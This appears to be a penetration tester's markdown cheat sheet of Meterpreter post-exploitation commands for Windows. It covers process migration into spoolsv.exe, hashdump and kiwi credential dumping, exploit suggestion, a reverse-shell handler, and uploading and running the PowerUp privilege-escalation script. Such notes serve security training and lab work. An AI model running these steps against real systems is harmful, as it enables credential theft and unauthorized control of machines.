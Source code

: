 # Commands

equivalent of whoami; NT AUTHORITY/SYSTEM is equivalent of admin
`getuid`

get working proccess number
`getpid`

change directory/print working directory/see files
`cd/pwd/cat`

go down to windows cmd (not needed if we are already admin)
`shell`

list out processes
`ps`

migrate to proccess (requires equivalent or higher permissions)
`migrate (proccess ID)
`spoolsv.exe is good to migrate to`

show system info
`sysinfo`

dump hashes
`hashdump`

`search -f *[extension]`

can be ran in meterpreter or msfconsole (suggests exploits based off provided info)
`run post/multi/recon/local_exploit_suggester`
## Reverse Shell with Metasploit
	auxiliary/multi/handler

## KIWI
meterpreter password dumping tool that can be loaded in using 
`load kiwi`




# Notes
try to get into `spoolsv.exe`

## PowerUp powershell script (.ps1)
the powerup ps1 script evaluates a windows machine and determines abnormalities (used for common windows privilege escalation based on misconfigurations)

[PowerUpSript](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

`meterpreter > upload [/filelocation/PowerUpFile.ps1`
upload the PowerUp script file 

`meterpreter > load powershell`
loads up powershell

`meterpreter > powershell_shell`
enter powershell

`PS > . .\[PowerUpFile.ps1]`
runs the powershell powerup script

`PS > Invoke-AllChecks`

